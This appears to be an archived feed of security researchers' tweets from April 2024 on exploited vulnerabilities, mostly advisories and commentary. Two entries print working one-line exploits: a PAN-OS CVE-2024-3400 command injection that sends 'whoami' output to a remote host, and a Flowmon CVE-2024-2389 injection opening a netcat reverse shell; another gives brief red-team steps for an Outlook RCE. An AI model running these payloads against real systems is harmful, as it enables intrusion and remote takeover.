



# wdormann
**https://twitter.com/wdormann/status/1783201177770852484 _at 2024-04-24, 18:27:45_**
<blockquote>
I get the impression that VPN endpoints are kind of important.
Attackers are exploiting Cisco ASA devices in the wild.
Cisco has fixed CVE-2024-20353 and CVE-2024-20359, but they have yet to discover the initial entry point vulnerability. 😬
https://t.co/pgwIRyVBuV https://t.co/zD4uPHHFpR
</blockquote>

* https://blog.talosintelligence.com/arcanedoor-new-espionage-focused-campaign-found-targeting-perimeter-network-devices/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>79</code></td>
<td>Favorites: <code>270</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1782442803911426253 _at 2024-04-22, 16:14:15_**
<blockquote>
Microsoft has identified longstanding activity by the Russian-based threat actor we track as Forest Blizzard using a custom tool we call GooseEgg to exploit CVE-2022-38028 in the Windows Print Spooler service to elevate permissions and steal credentials: https://t.co/YKHvxqJa61
</blockquote>

* https://msft.it/6014YG3oI

<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>165</code></td>
<td>Favorites: <code>348</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1780775859550662955 _at 2024-04-18, 01:50:24_**
<blockquote>
CVE-2024-3400 PAN-OS: OS Command Injection Vulnerability in GlobalProtect  Path Traversal -&gt; File Write -&gt; OS Command Injection  POC: curl https://host/global-protect/login.esp -k -H 'Cookie: SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/a`curl${IFS}uip/?u=$(whoami)`'
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1780390122145411188 _at 2024-04-17, 00:17:37_**
<blockquote>
Re CVE-2024-3400, please don't lock your detections to endpoint. I'm able to trigger the file write against /.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1779930136382689681 _at 2024-04-15, 17:49:48_**
<blockquote>
🚨 We're tracking new 0-day RCE CVE-2024-3400 in Palo Alto Networks PAN-OS 10.2-11.1 allowing unauthenticated root access in certain configs, check out the blog for more details. https://t.co/o9FV8HGah3
</blockquote>

* https://www.greynoise.io/blog/cve-2024-3400-command-injection-vulnerability-palo-alto-networks-pan-os

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>157</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1778996658845724854 _at 2024-04-13, 04:00:30_**
<blockquote>
Zero-Day Exploitation of Unauthenticated Remote Code Execution Vulnerability in GlobalProtect (CVE-2024-3400)

172.233.228[.]93

https://t.co/a3Rf1zgIZT https://t.co/6sU71axOWT
</blockquote>

* https://www.volexity.com/blog/2024/04/12/zero-day-exploitation-of-unauthenticated-remote-code-execution-vulnerability-in-globalprotect-cve-2024-3400/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>166</code></td>
<td>Favorites: <code>462</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1778778881014583447 _at 2024-04-12, 13:35:08_**
<blockquote>
Your usual reminder that "let's run things as root because it's easier" is *not* limited only to discount routers you get from the big-box store.
Palo Alto CVE-2024-3400 https://t.co/HVzcGOQx7d https://t.co/EFDLGHuUjy
</blockquote>

* https://security.paloaltonetworks.com/CVE-2024-3400

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>272</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1778705893116227676 _at 2024-04-12, 08:45:06_**
<blockquote>
If you thought the D-Link "backdoor" (CVE-2024-3272, CVE-2024-3273) was new, please see this writeup from 2018. https://t.co/QE96NQG9VS
</blockquote>

* https://www.exploit-db.com/exploits/43434

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1778421129193136338 _at 2024-04-11, 13:53:33_**
<blockquote>
🏭 We've tested the new RCE in Microsoft Outlook (CVE-2024-21378) in a production environment and confirm it works well!

A brief instruction for red teams:

1. Compile our enhanced DLL 👉 https://t.co/cQWF8KM8vL
2. Use NetSPI's ruler and wait!

No back connect required!

🔥 📐📏 https://t.co/aVDyT4d4B9
</blockquote>

* https://gist.github.com/Homer28/7f3559ff993e2598d0ceefbaece1f97f

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>128</code></td>
<td>Favorites: <code>344</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1777977522140950640 _at 2024-04-10, 08:30:49_**
<blockquote>
Progress Kemp Flowmon CVE-2024-2389:

curl -kv 'https://192.168.56.12/service.pdfs/confluence?lang=en&amp;file=`nc+-e+/bin/sh+192.168.56.1+4444`'
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

